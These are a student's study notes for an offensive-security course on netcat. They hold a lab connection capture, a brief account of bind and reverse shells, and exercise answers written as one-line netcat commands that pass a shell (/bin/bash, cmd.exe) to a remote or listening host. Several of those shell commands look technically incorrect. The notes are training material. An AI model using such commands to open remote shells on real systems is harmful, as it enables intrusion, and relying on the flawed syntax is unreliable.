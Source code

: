 
# Tools

## netcat

`nc -nv 192.168.133.128 80`

```
~/codeplay/oscp  master ⇡1 !1  nc -nv 192.168.133.128 80                                                                                                                      ✔  7s   
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.133.128:80.
ls
HTTP/1.1 400 Bad Request
Date: Wed, 09 Mar 2022 17:05:08 GMT
Server: Apache/2.4.52 (Debian)
Content-Length: 308
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.52 (Debian) Server at hlkali.vuln.land Port 80</address>
</body></html>
```

`nc -nlvp 4444`


wget.exe can be pushed through netcat
/usr/share/windows-resources/binaries/wget.exe


For example, consider the cmd.exe executable. By redirecting stdin, stdout, and stderr to the
network, we can bind cmd.exe to a local port. Anyone connecting to this port will be presented with
a command prompt on the target computer.

Bind Shells have the listener running on the target and the attacker connects to the listener in order to gain remote access to the target system. In the reverse shell, the attacker has the listener running on his/her machine and the target connects to the attacker with a shell.

### 4.1.4.3 Exercises
(Reporting is not required for these exercises)
1. Implement a simple chat between your Kali machine and Windows system.
   no windows machine but it would be through nc
![](../chapter3/nc_binary.png)

2. Use Netcat to create a:
a. Reverse shell from Kali to Windows.
`nc -nv 10.10.10.10 8080 < /bin/bash`

b. Reverse shell from Windows to Kali.
`nc -nv 10.10.10.10 8080 < cmd.exe`


c. Bind shell on Kali. Use your Windows system to connect to it.

`nc -nlvp 4444 < /bin/bash`


d. Bind shell on Windows. Use your Kali machine to connect to it.

`nc -nlvp 4444 < cmd.exe`


3. Transfer a file from your Kali machine to Windows and vice versa.

![](../chapter3/nc_transfer.png)

4. Conduct the exercises again with the firewall enabled on your Windows system. Adapt the
exercises as necessary to work around the firewall protection and understand what portions
of the exercise can no longer be completed successfully

okay if firewall blocks both incoming and outcoming that will be a problem.

![](../chapter3/nc_shell.png)


